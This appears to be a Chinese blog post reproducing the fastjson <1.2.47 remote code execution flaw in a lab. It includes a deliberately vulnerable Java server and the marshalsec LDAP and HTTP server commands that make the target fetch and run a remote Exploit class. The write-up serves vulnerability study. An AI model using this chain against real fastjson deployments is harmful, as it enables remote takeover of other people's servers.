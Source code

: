 ```yaml
---
title: fastjson<1.2.47 RCE 漏洞复现
date: 2019-07-15 16:16:12
tags:
- Hacker
categories:
- Hacker
---
```



首先使用 spark 搭建一个简易的利用 fastjson 解析 json 的 http server。

```java
package cn.hacktech.fastjsonserver;

import com.alibaba.fastjson.JSON;
import static spark.Spark.*;

public class Main {
    public static void main(String[] args) {
        get("/hello", (req, res) -> "spark server start success");
        post("/test", (req, res) -> {
            String payload = req.body();
            JSON.parse(payload);
            return "json payload：" + payload;
        });
    }
}
```

编译出来后，启动这个 jar，在 `/test` 这个 post 点即可 post json payload。

然后这里分两类：

1. 如果只是想检测漏洞是否存在，可以使用 dnslog 去检测
2. 利用的话，需要自己起一个恶意的 ldap 或者 rmi 服务

本机需要起一个 LDAP 服务和 http 服务

```
poc-->LDAP-->http
```

poc 会通过上面的路径去请求你的 http 服务上面的对应的 class 文件然后去解析执行这个 class

启动 LDAP 用的 marshalsec，会比较方便。

1. 在本目录下启动 http server 在 80 端口


```
python -m http.server 80
```

2. 启动 LDAP 服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1/#Exploit
```

后面的 Exploit 是指 Exploit.class 文件

3. 运行 PoC，它会请求 LDAP 服务，或者直接把 json payload post 到 `/test`

```
java -cp fastjson-1.2.47.jar; PoC
```

其中代码编译的话，直接执行 `javac the.java` 即可，不过 PoC.java 的编译需要引入 fastjson jar 包，运行 `javac -cp ./fastjson-1.2.47.jar PoC.java`

具体的细节可见[代码打包文件](https://www.lanzous.com/i4zzqej)

## 复现遇到一些坑

这次的这个洞是有 jdk 版本要求的。

最开始我在我本机测试通过，原因是因为它请求不到 class 的时候会去本目录下进行一个查找，也就是并没有经过 http 服务器。

所以想要复现这个漏洞的话，需要 target 主机上面的 jdk 版本有严格的要求，具体见下图

![](https://raw.githubusercontent.com/akkuman/pic/master/img/20190716164141951_25963.png)

所以建议复现流程是

## 建议复现流程

1. 起一个虚拟机专门用来运行我写的那个简易的 fastjsonserver，或者你可以直接在虚拟机上面执行 PoC，关键在于 target 机器的 jdk 版本。
2. 你可以在本机起 ldap/rmi 服务以及 http 服务，或者全部在虚拟机上运行也可以，但是一般真实情况下我们是在外部构造恶意的 ldap/rmi 以及 http server，所以建议这步放到虚拟机外运行。
3. 根据你的网络环境修改 PoC。
4. 然后 post payload 或者运行 PoC，即可看到虚拟机上弹出了计算器。